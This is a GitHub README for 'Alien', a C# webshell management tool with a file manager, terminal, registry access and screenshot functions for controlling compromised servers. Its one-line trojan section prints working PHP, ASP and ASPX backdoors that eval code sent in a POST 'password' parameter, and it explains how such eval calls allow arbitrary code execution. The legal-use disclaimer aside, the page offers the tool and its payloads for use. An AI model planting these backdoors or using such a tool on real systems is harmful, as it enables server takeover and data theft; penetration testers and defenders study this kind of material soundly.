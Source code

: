 # Alien
English readme : [README_EN](https://github.com/malbuffer4pt/Alien/blob/main/README_en.md)  
Webshell 管理工具  

## Author
- [@ISSAC](https://www.github.com/malbuffer4pt)

# 免責聲明
工具只限用於學習用途，網站管理和合法滲透測試，不可用於非法用途。\
如非法使用則後果自負。

## 工具平台
Windows

## 語言
C# .NET Framework V4.8

## 功能
- File Manager (可顯示圖片, 可SearchFile)
- Virtual Terminal
- Database
- Registry
- Monitor
- Screenshot
- System Information

## 一句話木馬
一句話木馬是在滲透測試中用來控制伺服器的工具\
強大之處在於木馬本身體積小，不易發現\
以下是最簡單的一句話木馬

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```
當然, Alien還可以使用asmx, ashx等等的Webshell。
- NodeJS & JSP
```https://github.com/malbuffer4pt/Alien/blob/main/shell.txt```

## 關於JSP webshell
目前只有比較原始的菜刀版本, 之後可能會加上蟻劍和冰蝎\
shell有進行更改, 新增了可以顯示圖片的功能

## 關於NodeJS webshell
由於NodeJS特性, 原理跟一般php asp aspx等動態語言的shell不同, \
NodeJS目的重在管理而非滲透

## 伺服器
Windows Linux Unix MacOS

## Database管理
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## 原理
以PHP為例子, eval()可以把string以PHP Code去執行，\
如果eval()中帶有可控變數，那麼就可以執行任意程式碼。\
如eval($_POST['a']);\
HTTP POST a=phpinfo(); 就可以執行phpinfo();

## 注意!
- 工具Payloads資料夾內有符合惡意程式的Payload, 可能會被防毒刪除
- 目前只有刪減版，但部份程式碼沒有刪除，Disassemble應該會有奇怪但無法使用的東西

## 圖片
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![6](https://github.com/malbuffer4pt/Alien/blob/main/6.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)
![7](https://github.com/malbuffer4pt/Alien/blob/main/7.png)
![8](https://github.com/malbuffer4pt/Alien/blob/main/8.png)
![9](https://github.com/malbuffer4pt/Alien/blob/main/9.png)
![10](https://github.com/malbuffer4pt/Alien/blob/main/10.png)
![11](https://github.com/malbuffer4pt/Alien/blob/main/11.png)
![12](https://github.com/malbuffer4pt/Alien/blob/main/12.png)

## 致謝
研究webshell的各位前輩
